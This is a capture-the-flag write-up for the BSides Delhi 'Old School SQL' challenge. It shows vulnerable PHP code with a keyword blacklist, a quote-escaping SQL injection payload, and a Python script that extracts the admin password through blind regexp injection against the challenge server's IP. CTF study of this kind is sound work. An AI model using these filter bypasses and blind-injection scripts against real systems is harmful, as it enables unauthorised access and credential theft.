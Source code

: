 # OLD SCHOOL SQL (web 150)
You can get the source-code from [here](https://github.com/chsantoshkumar211/CTFs/tree/master/bsides-delhi/old-school-sql).

Source code : 

```PHP
<?php 
include "./config.php";
include "./flag.php";
error_reporting(0);

$black_list = "/admin|guest|limit|by|substr|mid|like|or|char|union|select|greatest|%00|\'|";
$black_list .= "=|_| |in|<|>|-|chal|_|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($black_list, $_GET['user'])) exit(":P"); 
if(preg_match($black_list, $_GET['pw'])) exit(":P"); 


$query="select user from chal where user='$_GET[user]' and pw='$_GET[pw]'"; 

$result = mysql_query($query);
$result = mysql_fetch_array($result);
$admin_pass = mysql_fetch_array(mysql_query("select pw from chal where user='admin'"));
echo "<h1>query : <strong><b>{$query}</b></strong><br></h1>";
if($result['user']) echo "<h2>Welcome {$result['user']}</h2>"; 
if(($admin_pass['pw'])&&($admin_pass['pw'] === $_GET['pw'])){
    echo $flag;
}

highlight_file(__FILE__); 

?>
```

On seeing the source code we can get to know that the ```'``` is blocked but we can bypass the query as follows 

```PHP
select user from chal where user='\' and pw='%a0||%a01;%00'
```
Now to get the flag we need to dump the admin password for that we are going to use regex. Here is a python script for that.

```python
import requests
url="http://35.200.215.237?user=\&pw=%0a||%0a(user%0aregexp%0a0x61646d696e%0a%26%26%0a(pw)%0aregexp%0a\"^"
pay="1234567890"
passwd=""
for i in range(1,10):
    corr=0
    for j in pay:
        query=url+passwd+j+"\");%00"
        print(query)
        http=requests.get(query)
        if "Welcome admin" in http.text:
            passwd=passwd+j
            print(passwd)
            corr+=1
    if corr==0:
        break
print("Final pw : "+passwd)
```

On dumpling the admins password and submitting the pw=17292115 we get the flag : 
```flag{sQ1_inj3c7i0n_i5_v3ry_3asy}```

***Interesting*** ***fact*** : the 1729 from admins password represents the Ramanujan number about which you can learn [here](https://en.wikipedia.org/wiki/1729_(number). 